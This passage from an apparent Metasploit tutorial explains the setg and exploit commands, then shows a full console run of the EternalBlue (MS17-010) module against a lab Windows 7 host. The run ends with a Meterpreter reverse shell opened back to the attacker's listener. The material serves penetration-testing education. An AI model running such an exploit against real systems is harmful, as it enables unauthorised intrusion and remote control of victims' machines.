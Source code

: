 The `setg` command sets a global value that will be used until you exit Metasploit or clear it using the `unsetg` command.
## Using Modules

Once all module parameters are set, you can launch the module using the `exploit` command. Metasploit also supports the `run` command, which is an alias created for the `exploit` command as the word exploit did not make sense when using modules that were not exploits (port scanners, vuln scanners, etc.)

The `exploit` command can be used without any parameters or using the `-z` parameter.
The `exploit -z` command will run the exploit and background the session as soon as it opens.

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z

[*] Started reverse TCP handler on 10.10.44.70:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
[+] 10.10.12.229:445 - Sending SMBv2 buffers
[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.12.229
[*] Meterpreter session 2 opened (10.10.44.70:4444 -> 10.10.12.229:49186) at 2021-08-20 02:06:48 +0100
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 2 created in the background.
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
